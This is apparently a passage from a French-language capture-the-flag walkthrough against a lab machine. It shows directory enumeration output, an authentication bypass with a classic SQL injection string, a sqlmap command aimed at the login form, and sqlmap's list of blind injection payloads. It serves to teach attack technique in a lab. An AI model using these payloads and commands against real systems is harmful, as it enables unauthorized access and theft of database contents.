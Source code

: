 ## Danny Clover

Les autres ports étant fermés il ne reste que le port 80 qui semble intéressant.

Aucun des dossiers mentionné dans le `robots.txt` n'existe mais `feroxbuster` retrouve différents dossiers présents sur le serveur :

```
301        9l       28w      319c http://192.168.56.99/javascript
301        9l       28w      319c http://192.168.56.99/phpmyadmin
301        9l       28w      324c http://192.168.56.99/phpmyadmin/docs
301        9l       28w      329c http://192.168.56.99/phpmyadmin/docs/html
301        9l       28w      314c http://192.168.56.99/CFIDE
301        9l       28w      316c http://192.168.56.99/website
301        9l       28w      323c http://192.168.56.99/website/images
301        9l       28w      324c http://192.168.56.99/website/scripts
200        1l        2w       10c http://192.168.56.99/status
301        9l       28w      323c http://192.168.56.99/website/styles
403        9l       28w      278c http://192.168.56.99/phpmyadmin/libraries
301        9l       28w      326c http://192.168.56.99/phpmyadmin/themes
```

Dans `CFIDE` on trouve un dossier `Administrator` car le listing est activé. On est alors face à une page web dans laquelle je finis par remarquer le commentaire HTML suivant :

```html
<!-- Please Disable: /login.php this page doesn't exist, disable test login form.-->      
```

Le script en question existe bien et est vulnérable à une injection SQL. En effet si je saisis le nom d'utilisateur admin et le mot de passe `' or '1'='1` le script m'indique que je suis connecté.

Aucun lien n'est présent dans la page, le script a visiblement comme seul intérêt d'être vulnérable. On va se servir de `sqlmap` pour essayer d'extraire de la base des données des informations utiles pour la suite du CTF.

```bash
python sqlmap.py -u "http://192.168.56.99/CFIDE/Administrator/login.php" --dbms mysql --data "uname=admin&pswd=123456" --risk 3 --level 5
```

Les deux paramètres sont vulnérables :

```
sqlmap identified the following injection point(s) with a total of 721 HTTP(s) requests:
---
Parameter: uname (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: uname=-6282' OR 3655=3655-- oYbk&pswd=123456

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=admin' AND (SELECT 8104 FROM (SELECT(SLEEP(5)))DJsB)-- RDqi&pswd=123456

Parameter: pswd (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: uname=admin&pswd=-4249' OR 5766=5766-- lBSE

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=admin&pswd=123456' AND (SELECT 5948 FROM (SELECT(SLEEP(5)))CLdE)-- eYHt
---
```
